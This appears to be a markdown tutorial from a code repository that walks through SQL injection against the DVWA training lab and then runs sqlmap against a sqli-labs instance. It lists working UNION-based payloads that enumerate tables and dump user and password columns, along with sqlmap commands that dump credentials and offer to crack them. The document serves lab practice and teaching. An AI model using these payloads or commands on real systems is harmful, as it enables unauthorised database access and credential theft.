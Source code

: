 # SQL INJECTION
> ### SQL injection is the placement of malicious code in SQL statements, via web page input.
> 
> ### SQL injection comes is at top in the OWASP top 10 vulnerabilities list.


# SQL INJECTION DVWA - SECURITY LEVEL LOW
### Normal Request ->
> ### _ip_`/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#`
---
### Check for Exception Handling Validation ->
> ### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' `&Submit=Submit#`
```
If the website shows an SQL ERROR with the ' (single quote), then the application is vulnerable to SQL injection, else not.
```
---
### Check Total no. of columns in the table ->
> ### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' order by 1 --+`&Submit=Submit#`
> ### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' order by 1,2 --+`&Submit=Submit#`
> ### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' order by 1,2,3 --+`&Submit=Submit#`
```
If on error, then we can check for other columns by adding numbers after comma (in this case).

For the 3rd command, we get the error-> Unknown column '3' in 'order clause'

This means that there are only 2 columns in the table
```
---
### Now we have to extract the DDL (Data Definition Language) for the custom query execution
We start by ->
> ### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' union select 1,2 --+`&Submit=Submit#`
```
In place of 1,2 we can have all the data we want
```
> #### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' union select database(),version() --+`&Submit=Submit#`
```
This will give name of the database application is using and it's version
```
> #### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' union select 1,table_name from information_schema.tables --+`&Submit=Submit#`
```
We are asking information_schema to give us the name of all tables
Information Schema is responsible to index all the tables and columns in all the database.
```
> ##### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' union select 1,column_name from information_schema.columns where table_name=char(117, 115, 101, 114, 115)--+`&Submit=Submit#`
> 
> ##### _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' union select 1,column_name from information_schema.columns where table_name='users'--+`&Submit=Submit#`
```
The query may give error due to quotes and hence we can use the the char() function of SQL to pass the parameter in decimal.

This will give us list of all columns in the users table of the current database.

Here we are interested in `user` and `password` column.
```
---
### The whole query
> ####  _ip_`/dvwa/vulnerabilities/sqli/?id=1` ' union select user,password from users --+`&Submit=Submit#`
```
The above query will give away all the contents of `user` and `password` column.

You can crack the passwords using crackstation.
```


# SQLMAP
> ### SQLMAP will can automate the above process for us.

### But now we will use some different application->
> ### sqlmap -u http://54.91.48.13/sqli/Less-1/?id=1 --dbs
```
Target:

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

Enumeration:

    --dbs               Enumerate DBMS databases

```
> ### sqlmap -u http://54.91.48.13/sqli/Less-1/?id=1 -D dvwa --tables
```
Enumeration:
    
    --tables            Enumerate DBMS database tables

    -D DB               DBMS database to enumerate

```
> ### sqlmap -u http://54.91.48.13/sqli/Less-1/?id=1 -D dvwa -T users --columns
```
Enumeration:

    --columns           Enumerate DBMS database table columns

    -T TBL              DBMS database table(s) to enumerate
```
> ### sqlmap -u http://54.91.48.13/sqli/Less-1/?id=1 -D dvwa -T users -C user,password --dump
```
Enumeration:
    
    --dump              Dump DBMS database table entries
    
    -C COL              DBMS database table column(s) to enumerate
```
> ## SQLMAP is smart to recognize passwords, the type of encryption used for them and will ask if you want to crack them. You can provide a wordlist for the same.
